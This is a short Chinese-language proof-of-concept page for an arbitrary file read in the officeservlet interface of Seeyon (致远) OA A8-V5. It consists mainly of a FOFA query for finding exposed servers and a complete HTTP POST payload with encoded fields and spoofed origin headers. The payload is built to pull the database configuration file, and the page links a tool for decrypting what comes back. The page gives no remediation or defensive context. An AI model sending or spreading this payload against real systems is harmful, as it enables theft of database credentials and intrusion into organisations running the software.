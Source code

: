## 致远OA-A8-V5接口officeservlet存在任意文件读取漏洞

## fofa

```
app="致远互联-OA" && product="致远A8"
```

## poc

读取`./../../base/conf/datasourceCtp.properties`路径下的数据库配置文件

```yaml
POST /seeyon/officeservlet HTTP/1.1
Host: xxxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi
```

![image-20230426151343095](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407030924382.png)

使用工具解密 `https://github.com/wafinfo/DecryptTools`

![image-20240703092430361](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407030924444.png)
